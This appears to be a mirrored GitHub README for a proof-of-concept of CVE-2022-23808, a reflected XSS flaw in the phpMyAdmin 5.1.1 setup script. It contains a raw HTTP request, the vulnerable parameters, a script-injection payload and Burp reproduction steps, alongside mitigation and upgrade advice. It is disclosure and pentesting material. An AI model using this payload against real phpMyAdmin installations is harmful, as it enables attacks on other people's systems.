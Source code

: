 # CVE-2022-23808

phpMyAdmin XSS 

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/dipakpanchal456](https://github.com/dipakpanchal456) |
| Url      | [https://github.com/dipakpanchal456/CVE-2022-23808](https://github.com/dipakpanchal456/CVE-2022-23808)                                               |
| Stars    | 86                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* bugbounty* cross-site-scripting* database* exploit* exploitation* hacking* infosec* owasp* owasp-top-10* pentesting* phpmyadmin* poc* redteam* redteaming* vulnerability* xss* zeroday

</details>

## Readme

# phpMyAdmin Exploit

**Exploit Title :** phpMyAdmin 5.1.1 - XSS (Cross-site Scripting)                                                          
**Exploit Author :** [Dipak Panchal](https://twitter.com/DipakPanchal05) **([@th3.d1p4k](https://instagram.com/th3.d1p4k))**                 
**Vendor Homepage :** https://www.phpmyadmin.net                      
**Software Link :** https://www.phpmyadmin.net/files/5.1.1/                 
**Affected Versions :** phpMyAdmin versions of the 5.1 branch prior to 5.1.2 are affected.                
**Tested on :** Windows 10 and Linux    
**CVE :** [CVE-2022-23808](https://nvd.nist.gov/vuln/detail/CVE-2022-23808)       
**Reference :** https://www.phpmyadmin.net/security/PMASA-2022-2/         

### **Description:**
A series of weaknesses has been discovered that could allow an attacker to inject malicious code in to aspects of the setup script, which can allow XSS or HTML injection.

### **Request:**

```
GET /phpmyadmin/setup/index.php?page=servers&mode=test&id=test  HTTP/1.1      
Host: 127.0.0.1:1234       
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0      
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8      
Accept-Language: en-US,en;q=0.5     
Connection: close   
Cookie: pma_lang=en; phpMyAdmin=fs55xxxxxxx; pma_lang=en; pmaUser-1=xxxxxxxxxxxxxxxxxxxxxxxxxxx; phpMyAdmin=xxxxxxxxxxxxxxx; pmaAuth-1=xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx           
Upgrade-Insecure-Requests: 1          
Cache-Control: max-age=0          
```

### **Vulnerable Parameter(s) :** 
* mode
* id

### **Payload :**
```
">'><script>alert(document.domain)</script>
```

### **Steps to reproduce :**

1. Capture above reuqest in burp.
2. Replace/Change XSS payload with vulnerable parameters.
3. Click on send and show response in browser.
4. You'll get popup!

## **Proof of Concept :**
![2022-01-26_21h45_23](https://user-images.githubusercontent.com/31427462/152356009-88cb5947-6abf-481f-9cc1-58c8cf4a6a12.png)


### **Mitigation :**
A phpMyAdmin installation with a configuration file config.inc.php will not allow access to the setup script, which in turn mitigates this attack.


### **Fix :**
Upgrade to phpMyAdmin 5.1.2 or newer or apply patch listed below.



## Get the content

```
git clone https://github.com/dipakpanchal456/CVE-2022-23808
cd CVE-2022-23808
```

{% embed url="https://github.com/dipakpanchal456/CVE-2022-23808" %}

<figure><img src="https://avatars.githubusercontent.com/u/31427462?v=4" alt=""><figcaption><p>dipakpanchal456</p></figcaption></figure>
